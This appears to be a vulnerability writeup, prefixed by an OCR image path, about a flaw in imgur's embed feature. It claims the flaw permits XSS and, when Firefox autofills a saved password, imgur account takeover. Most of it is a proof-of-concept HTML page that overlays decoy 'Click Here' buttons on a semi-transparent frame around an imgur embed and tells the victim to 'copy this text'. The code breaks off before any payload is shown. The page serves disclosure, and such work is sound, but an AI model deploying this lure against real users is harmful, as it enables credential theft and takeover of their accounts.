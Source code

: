 There is the possibility that the user has saved the password in the browser, and when that happens, in firefox the password is recorded in the input, so in this case it is possible to make an account takeover in the imgur account. On the other hand, when it doesn't, it is still possible to do XSS.


# PoC code

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>PoC</title>
    <style media="screen">
      iframe{
        opacity: 50%;
        width: 1000px;
        height: 500px;

      }
      #content{
        position: relative;
      }
      #btn1{
        position:absolute;
        top: 30px;
        left: 170px;
        vertical-align: middle;
        padding: 0px;
        background-color: #7a297a;
        color:white;
        border: 2px solid #7a297a;
        border-radius: 25px;
        font-size: 20px;
      }
      #btn2{
        position:absolute;
        top: 120px;
        left: 170px;
        vertical-align: middle;
        padding: 0px;
        background-color: #7a297a;
        color:white;
        border: 2px solid #7a297a;
        border-radius: 25px;
        font-size: 20px;
      }
    </style>
  </head>
  <body>

      <div id="btn1">Click Here</div>
    <div id=content>
      <div id="btn2">

      </div>
    <blockquote id="block" class="imgur-embed-pub" lang="en" data-id="a/lz8DAkB/embed">
      <a href="//imgur.com/a/xx">Life is not the same without your loved ones ...</a>
    </blockquote>

      </div>
    <br><br>
    <p style="color: red">copy this text</p>
```